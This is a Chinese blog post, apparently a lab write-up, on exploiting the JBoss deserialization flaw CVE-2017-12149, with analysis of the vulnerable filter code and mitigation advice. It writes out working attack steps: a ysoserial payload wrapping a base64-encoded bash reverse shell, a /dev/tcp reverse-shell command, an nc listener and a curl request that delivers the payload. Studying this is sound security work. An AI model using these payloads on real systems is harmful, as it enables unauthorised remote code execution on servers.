





# CVE-2017-12149JBoss 反序列化漏洞利用 - 20155117 王震宇 - 博客园

> 原文：[`www.cnblogs.com/ikari/p/8989821.html`](https://www.cnblogs.com/ikari/p/8989821.html)

[CVE-2017-12149](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12149)

*   漏洞描述
    互联网爆出 JBOSSApplication Server 反序列化命令执行漏洞(CVE-2017-12149)，远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。漏洞危害程度为高危(High)。
*   影响范围
    漏洞影响 5.x 和 6.x 版本的 JBOSSAS。
*   漏洞原理
*   JBOSS Application Server 是一个基于 J2EE 的开放源代码的应用服务器。 JBoss 代码遵循 LGPL 许可，可以在任何商业应用中免费使用。
*   Java 序列化：把 Java 对象转换为字节序列的过程
*   Java 反序列化：指把字节序列恢复为 Java 对象的过程。
*   漏洞分析
    *   Java 序列化与反序列化作用：便于保存数据，或者进行数据传输。
    *   Java 序列化文件文件头对于序列化的标识:`AC ED 00 05`

```
序列化
FileOutputStream fos = new FileOutputStream(file);
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(st);

反序列化
FileInputStream fis = new FileInputStream(file);
ObjectInputStream ois = new ObjectInputStream(fis);
Student st1 = (Student) ois.readObject(); 
```

*   漏洞出现在 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中，源码在 jboss\server\all\deploy\httpha-invoker.sar\invoker.war\WEB-INF\classes\org\jboss\invocation\http\servlet 目录下的 ReadOnlyAccessFilter.class 文件中,其中 doFilter 函数代码如下:

```
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
    throws IOException, ServletException
  {
    HttpServletRequest httpRequest = (HttpServletRequest)request;
    Principal user = httpRequest.getUserPrincipal();
    if ((user == null) && (this.readOnlyContext != null))
    {
      ServletInputStream sis = request.getInputStream();
      ObjectInputStream ois = new ObjectInputStream(sis);
      MarshalledInvocation mi = null;
      try
      {
        mi = (MarshalledInvocation)ois.readObject();
      }
      catch (ClassNotFoundException e)
      {
        throw new ServletException("Failed to read MarshalledInvocation", e);
      }
      request.setAttribute("MarshalledInvocation", mi);

      mi.setMethodMap(this.namingMethodMap);
      Method m = mi.getMethod();
      if (m != null) {
        validateAccess(m, mi);
      }
    }
    chain.doFilter(request, response);
  } 
```

直接从 http 中获取数据，在没有进行检查或者过滤的情况下，尝试调用 readobject()方法对数据流进行反序列操作，因此产生了 Java 反序列化漏洞。

## 实验环境

*   操作机:kali linux 64 位。
*   [java.lang.runtime.exec() payloads 编码](http://jackson.thuraisamy.me/runtime-exec-payloads.html)

## 实验工具

*   ysoserial:是一款拥有多种不同利用库的 Java 反序列化漏洞 payload 生成工具，能方便的生成命令执行 Payload 并序列化。本实验主要使用生成 Payload 功能。
*   Github: [ysoserial](https://github.com/angelwhu/ysoserial)
*   使用参考博客:[java 反序列化工具 ysoserial 分析 – angelwhu](http://www.vuln.cn/6295)

## 实验步骤

### Step：1 ysoserial

*   在终端输入`firefox http://172.16.12.2:8080`打开目标机 jboss 默认界面。之后进入漏洞页面`http://172.16.12.2:8080/invoker/readonly`。http 响应码 500(内部服务器错误——服务器端的 CGI、ASP、JSP 等程序发生错误)，分析猜想，此处服务器将用户提交的 POST 内容进行了 Java 反序列化。
    
    

*   使用工具 ysoserial 来生成序列化数据，构造`POC(Proof Of Concept)`，使用`bash`反弹`Shell`，`nc`接受反弹回来的`Shell`。

*   从 github 下载工具`ysoserial` 后，打开源代码能看到在处理数据时使用了`Runtime.getRuntime().exec(String cmd)`，此时调用`Runtime.getRuntime().exec(String command, String[] envp, File dir)`，直接构造的字符串会被下面的代码分割：

```
/**
     * Constructs a string tokenizer for the specified string. The
     * tokenizer uses the default delimiter set, which is
     * <code>"&nbsp;&#92;t&#92;n&#92;r&#92;f"</code>: the space character,
     * the tab character, the newline character, the carriage-return character,
     * and the form-feed character. Delimiter characters themselves will
     * not be treated as tokens.
     *
     * @param   str   a string to be parsed.
     * @exception NullPointerException if str is <CODE>null</CODE>
     */
    public StringTokenizer(String str) {
        this(str, " \t\n\r\f", false);
    } 
```

*   StringTokenizer 会对\t\n\r\f 进行分割，所以如果输入命令

```
bash -c `bash -i >& /dev/tcp/127.0.0.1/21 0>&1` 
```

*   会变成

```
bash
-c
`bash
-i
>&
/dev/tcp/127.0.0.1/21
0>&1` 
```

-此时需要进行编码，[编码网站](http://jackson.thuraisamy.me/runtime-exec-payloads.html)，勾选`bash`。

注：Linux 下的${IFS}也可进行编码,${IFS}的 hex 值是 0x20 0x09 0x0a，因此不被分割，可以利用在写 shell 时的命令中。需要注意是，${IFS}编码后的命令中有空格，重定时，文件名中有空格会造成命令解析不完整，写入文件会失败。而在反弹 shell 命令中，就会导致模糊的重定向错误。

### Step：2 构造生成 Payload

*   ysoserial 的用法：`java -jar ysoserial.jar [payload] '[command]'`
*   [payload] : 利用库，根据服务器端程序版本不同而不同，若如报错，可尝试跟换其他利用库。
*   [command] : 待执行的命令。
*   执行命令：

```
java  -jar  ysoserial.jar  CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMTEuMi82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser 
```



*   设置 nc 本地监听端口 6666`nc -l -p 6666`。
*   发送请求，获取 Shell。服务器接收到以 POST 的方式发送的序列化数据，会进行反序列化，执行其中包含的命令，将 Shell 反弹至 Kali 机器的 6666 端口。我们使用 curl 命令发送请求，打开命令行，执行如下代码：`curl http://172.16.12.2:8080/invoker/readonly --data-binary @poc.ser`
    
*   Shell 弹回至 nc 监听的端口。
    

## 漏洞建议：

*   升级新版本。
*   删除 `http-invoker.sar` 组件。
*   添加如下代码至 `http-invoker.sar` 下 `web.xml` 的 `security-constraint` 标签中：`<url-pattern>/*</url-pattern>`用于对 `http invoker` 组件进行访问控制。

## 参考资料

*   [`github.com/angelwhu/ysoserial`](https://github.com/angelwhu/ysoserial)
*   [`www.vuln.cn/6295`](http://www.vuln.cn/6295)
*   [`jackson.thuraisamy.me/runtime-exec-payloads.html`](http://jackson.thuraisamy.me/runtime-exec-payloads.html)
*   [`www.seebug.org/vuldb/ssvid-96880`](https://www.seebug.org/vuldb/ssvid-96880)
*   [`access.redhat.com/security/cve/cve-2017-12149`](https://access.redhat.com/security/cve/cve-2017-12149)